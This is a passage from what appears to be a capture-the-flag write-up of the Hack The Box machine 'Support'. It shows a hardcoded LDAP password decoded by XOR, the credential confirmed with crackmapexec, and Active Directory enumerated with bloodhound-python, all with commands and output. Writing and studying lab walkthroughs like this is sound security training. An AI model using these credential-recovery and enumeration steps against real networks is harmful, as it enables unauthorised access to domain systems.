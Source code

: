 ```
>>> bytearray([e^k^223 for e,k in zip(enc, cycle(key))]).decode()
'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

```

#### Dynamic

On my Linux system, I’ve got the .NET framework installed, which comes with the `mono` binary, which can be used to run this binary as well. If I open Wireshark and run the binary, I’ll capture the authentication in the LDAP stream:

![image-20221214172817603](https://0xdfimages.gitlab.io/img/image-20221214172817603.png)

This can also be seen in the packet that Wireshark labels as “bindRequest”:

![image-20221214172910209](https://0xdfimages.gitlab.io/img/image-20221214172910209.png)

Interestingly, this doesn’t work on Windows. I’ll dig a bit in [Beyond Root](#beyond-root).

### Verify Creds

`crackmapexec` is a nice way to quickly show these creds work:

```

oxdf@hacky$ crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         dc.support.htb  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         dc.support.htb  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 

```

## Shell as support

### BloodHound

Whenever I find creds on Windows, I’ll run Bloodhound. Since I don’t have a shell, I’ll use the Python version:

```

oxdf@hacky$ bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
INFO: Found AD domain: support.htb
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 13S

```
